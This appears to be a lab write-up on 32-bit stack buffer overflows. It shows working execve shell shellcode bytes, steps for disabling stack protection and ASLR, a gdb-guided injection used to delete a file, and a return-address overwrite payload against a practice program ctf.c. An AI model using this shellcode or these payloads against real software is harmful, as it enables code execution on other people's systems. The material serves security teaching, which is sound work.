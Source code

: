 # 1. Inject code to delete file
## b. Privilege escalation 

Before deleting file

![Picture before deleting](/Chapter-2/imgs/Privilege-dummyfile.png)

File sh.asm

![Picture about sh.asm](/Chapter-2/imgs/ctf.png)

Firstly, we have to assembles the assembly source file and links the object file to create an executable file

`nasm -g -f elf sh.asm
ld -m elf_i386 -o sh sh.o
`

After that, we use `for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo` to extracts the machine code.
- \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80
- This program is 27 bytes

We need to get the shellcode into buf in vuln; insert the starting position of buf into ret addr so that the program goes back to executing the command we just inserted into buf.

Stack frame:

![Picture about program](/Chapter-2/imgs/Inject-Stack-Frame.png)

Insert 27 bytes shellcode + 41 bytes random character = 68 bytes = buf + ebp

Set up:
- `gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`
- `sudo ln -sf /bin/zsh /bin/sh` create new shell that allows code execution on stack, default does not allow

Using gdb and watch main()

![Picture about gdb of main](/Chapter-2/imgs/Inject-gdb-main.png)

Create breakpoints
- Set at +6, after stackframe is set
- Set at +48, ​​before strcpy we see that eax has been pushed twice so esp is now - 8 bytes. Therefore, we set breakpoint after adding 8 bytes to esp

![Picture about creating breakpoints](/Chapter-2/imgs/Inject-breakpoint.png)

Use `r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80' + 'a'*41 + '\xff\xff\xff\xff’)")`
- set 4 bytes of ret addr to 0xffffffff for easy searching

After setting stackframe

![Picture gdb at +6](/Chapter-2/imgs/Privilege-plus6.png)

After strcpy

![Picture gdb at +48](/Chapter-2/imgs/Inject-gdb-before.png)

Now we know where ret addr is. Now we replace ret addr with 0xffffd6ec

![Picture about replacing value of ret addr](/Chapter-2/imgs/Inject-gdb-after.png)

The address in ret addr has been replaced with esp so the program returns and continues executing the instructions in the stack frame.

Then we use `rm -r -f dummyfile` to delete file

![Picture about using command to delete file](/Chapter-2/imgs/Privilege-delete.png)

The result is that we delete successfully dummyfile

![Picture about using command to delete file](/Chapter-2/imgs/Privilege-result.png)

# 2. Conduct attack on ctf.c

![Picture about ctf.c](/Chapter-2/imgs/ctf.png)

The vulnerability is strcpy(buf, s) at line 31 because s can have a longer length than buf.

First, we have to set up system `sudo sysctl -w kernel.randomize_va_space=0` so that system doesn't random variable's address

Normal stack frame of the program:

![Picture about ctf.c stack frame](/Chapter-2/imgs/ctf-Stack-Frame-normal.png)

If we want the program to run the function myfunc(), we need to assign its address to the return address of vuln().

Using gdb and `disas myfunc` we know `0x0804851b` is its address:

![Picture about using gdb myfunc()](/Chapter-2/imgs/ctf-gdb.png)

Stack frame of myfunc():

![Picture about myfunc stack frame](/Chapter-2/imgs/ctf-Stack-Frame-myfunc.png)

However, because we perform buffer overflow to execute the myfunc() function, we are missing 2 arguments p and q:

![Picture about ctf.c stack frame buffer](/Chapter-2/imgs/ctf-Stack-Frame-buffer.png)

Based on the stack frame, ebp of main() must contain the value of p and ret addr of main() must contain the value of q

`./ctf.out $(python -c "print(104*'a' + '\x1b\x85\x04\x08' + 4*'a' + '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")`
- `104*'a'` assigns arbitrary values ​​to buf and ebp of vuln()
- `\x1b\x85\x04\x08` assigns the address of myfunc() to the ret addr of vuln()
- `4*'a'` assigns arbitrary value to s of vuln()
- `\x11\x12\x08\x04` assigns the value p to the ebp of main()
- `\x62\x42\x64\x44` assigns the value q to the ret addr of main()

![Picture about result](/Chapter-2/imgs/ctf-result.png)
